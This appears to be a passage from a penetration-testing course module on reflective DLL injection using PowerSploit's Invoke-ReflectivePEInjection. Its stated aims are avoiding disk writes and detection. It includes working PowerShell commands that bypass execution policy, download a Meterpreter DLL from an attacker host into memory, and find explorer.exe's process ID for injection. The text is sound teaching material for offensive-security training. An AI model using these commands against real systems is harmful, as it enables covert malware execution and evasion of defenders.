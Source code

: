In this Learning Unit, we'll explore how to improve upon DLL injection to avoid requiring the DLL to be downloaded on disk, using a technique known as [reflective DLL injection](https://github.com/stephenfewer/ReflectiveDLLInjection).

## 8.3.1. Reflective DLL Injection in PowerShell

_LoadLibrary_ performs a series of actions, including loading DLL files from disk and setting the correct memory permissions. It also registers the DLL, making it usable from APIs like _GetProcAddress_ and visible to tools like Process Explorer.

Since we do not need to rely on _GetProcAddress_ and want to avoid detection, we are only interested in the memory mapping of the DLL. Reflective DLL injection parses the relevant fields of the DLL's [Portable Executable](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format) (PE) file format and maps the contents into memory.

In order to implement reflective DLL injection, we could write custom code to essentially recreate and improve upon the functionality of _LoadLibrary_. Since the inner workings of the code and the details of the PE file format are beyond the scope of this Module, we will instead reuse existing code to execute these techniques.

The ultimate goal of this technique is to maintain the essential functionality of _LoadLibrary_ while avoiding writing to disk and avoiding detection by tools such as Process Explorer.

We'll reuse the PowerShell reflective DLL injection code called [Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) developed by the security researchers _Joe Bialek_ and _Matt Graeber_.

This script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes: the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.

Since the complete code is almost 3000 lines, we are not going to cover the code itself, but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use the same Meterpreter DLL that we created earlier. To reflectively load a Meterpreter DLL in **explorer.exe**, we are going to download it using the PowerShell _DownloadData_ method, place it in a byte array, and look up the desired process ID.

In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we'll run the commands shown in Listing 26, which will load the DLL into a byte array and retrieve the explorer process ID.

```
PS C:\Users\offsec> PowerShell -Exec Bypass

PS C:\Users\offsec> $bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')

PS C:\Users\offsec> $procid = (Get-Process -Name explorer).Id
```

> Listing 26 - Downloading DLL and finding Explorer.exe process ID

To use _Invoke-ReflectivePEInjection_, we must first import it from its location in **C:\Tools** with **Import-Module**:
